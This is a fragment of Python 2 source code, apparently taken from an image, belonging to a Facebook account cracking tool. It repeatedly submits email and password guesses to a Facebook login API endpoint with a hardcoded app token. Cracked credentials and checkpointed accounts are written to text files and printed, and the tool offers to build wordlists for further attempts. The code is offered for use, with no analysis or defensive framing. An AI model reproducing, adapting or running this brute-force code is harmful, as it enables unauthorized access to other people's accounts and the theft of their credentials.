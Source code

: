 sys.stdout.flush()
data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + email + '&locale=en_US&password=' + pw + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
mpsh = json.loads(data.text)
if 'access_token' in mpsh:
dapat = open('Brute.txt', 'w')
dapat.write(email + ' | ' + pw + '\n')
dapat.close()
print '\n\x1b[1;91m[+] \x1b[1;92mFounded.'
print 52 * '\x1b[1;97m\xe2\x95\x90'
print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername \x1b[1;91m:\x1b[1;97m ' + email
print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword \x1b[1;91m:\x1b[1;97m ' + pw
keluar()
else:
if 'www.facebook.com' in mpsh['error_msg']:
ceks = open('Brutecekpoint.txt', 'w')
ceks.write(email + ' | ' + pw + '\n')
ceks.close()
print '\n\x1b[1;91m[+] \x1b[1;92mFounded.'
print 52 * '\x1b[1;97m\xe2\x95\x90'
print '\x1b[1;91m[!] \x1b[1;93mAccount Maybe Checkpoint'
print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername \x1b[1;91m:\x1b[1;97m ' + email
print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword \x1b[1;91m:\x1b[1;97m ' + pw
keluar()
except requests.exceptions.ConnectionError:
print '\x1b[1;91m[!] Connection Error'
time.sleep(1)

except IOError:
print '\x1b[1;91m[!] File not found...'
print '\n\x1b[1;91m[!] \x1b[1;92mSepertinya kamu tidak memiliki wordlist'
tanyaw()


def tanyaw():
why = raw_input('\x1b[1;91m[?] \x1b[1;92mAre you sure want to make wordlist ? \x1b[1;92m[y/t]\x1b[1;91m:\x1b[1;97m ')
if why == '':
print '\x1b[1;91m[!] Please choice \x1b[1;97m(y/t)'
tanyaw()
else:
if why == 'y':
wordlist()
else:
if why == 'Y':
wordlist()
else:
if why == 't':
menu_hack()
else:
if why == 'T':
menu_hack()
else:
print '\x1b[1;91m[!] Please choice \x1b[1;97m(y/t)'
tanyaw()
